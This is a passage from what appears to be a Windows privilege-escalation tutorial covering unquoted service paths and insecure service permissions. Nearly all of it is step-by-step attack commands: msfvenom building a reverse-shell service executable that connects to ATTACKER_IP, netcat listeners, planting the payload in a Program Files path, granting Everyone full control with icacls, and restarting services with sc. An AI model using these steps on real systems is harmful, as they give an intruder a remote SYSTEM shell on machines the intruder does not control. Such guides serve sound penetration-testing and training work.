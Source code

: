 2. Generate a malicious executable:
   ```bash
   # On Kali Linux
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o malicious.exe
   ```

3. Create a listener:
   ```bash
   nc -lvp 4446
   ```

4. Place the malicious executable in the path with proper name:
   ```cmd
   # Example: exploiting "C:\Program Files\Vulnerable Service\service.exe"
   copy malicious.exe "C:\Program Files\Vulnerable.exe"
   
   # Ensure proper permissions
   icacls "C:\Program Files\Vulnerable.exe" /grant Everyone:F
   ```

5. Restart the service:
   ```cmd
   sc stop "Vulnerable Service"
   sc start "Vulnerable Service"
   ```

## Method 3: Insecure Service Permissions

If a service's DACL allows modification, we can reconfigure the service to run any executable as SYSTEM.

### Identifying Vulnerable Services

```cmd
# Using AccessChk (Sysinternals)
accesschk64.exe -qlc SERVICE_NAME

# Look for:
# - SERVICE_ALL_ACCESS
# - SERVICE_CHANGE_CONFIG
# For non-admin groups like BUILTIN\Users, Everyone, Authenticated Users
```

### Exploitation Steps

1. Generate a malicious executable:
   ```bash
   # On Kali Linux
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o malicious.exe
   ```

2. Create a listener:
   ```bash
   nc -lvp 4447
   ```
